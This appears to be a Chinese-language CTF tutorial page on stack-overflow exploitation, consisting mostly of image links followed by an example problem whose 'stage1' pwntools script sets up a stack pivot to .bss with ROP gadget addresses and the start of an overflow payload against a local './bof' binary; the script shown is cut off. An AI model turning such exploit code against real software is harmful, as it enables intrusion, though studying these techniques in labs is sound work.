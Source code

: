 ![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604474997373-8840c4b0-7c4d-438f-85f5-73000b217328.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604474976338-b096962a-7650-41cd-a0be-953c7f79364c.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475026565-30e1efc4-fe81-4d5a-b02d-1cdc4fec5a45.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475068262-95cd56ac-ff77-4436-a44e-53d55dc94262.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475119091-a1b66949-7b69-4d72-927d-925001271a16.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475216880-38d02d35-8745-4908-8afb-7080724cba38.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475319975-1eae3a02-c758-4aaf-aa71-577c67c4fc01.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475388959-7a5bb4b9-df4a-4df1-8dcf-c9b40de6a3cb.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475537890-1bfe6a72-63fd-472f-9c3e-cb08b3d47820.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475690024-ce7c7364-5943-4613-af33-34d159a9dac8.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475840826-27411b8b-3ac3-4708-a965-17e7c6d13a51.png)



![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604475924026-e42e5543-6e82-4ab2-915f-77241fe4935c.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604476103324-7cc5bb23-b226-4e8d-99d8-30b7bb5a572a.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604476122553-a1708072-c62b-45ca-aec1-0e5aa2256dae.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604476262704-210e43f9-3026-4fc9-9af1-7bf1cd630a32.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604476328096-38d38e63-6420-4036-a539-22ac304a68cb.png)

## 例题

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1604476502888-316fccd8-3249-4436-9917-901aa68c7346.png)

### stage1

打印字符

```python
from pwn import *

io=process('./bof')
elf=ELF('./bof')
context.log_level='debug'

write_plt=elf.plt['write']
read_plt=elf.plt['read']
write_got=elf.got['write']
bss_addr=elf.bss()

stack_size=0x800
base_stage=bss_addr+stack_size

p_p_p_ret=0x0804856c
leave_ret=0x08048481
pop_ebp_ret=0x08048453

payload1='a'*112
```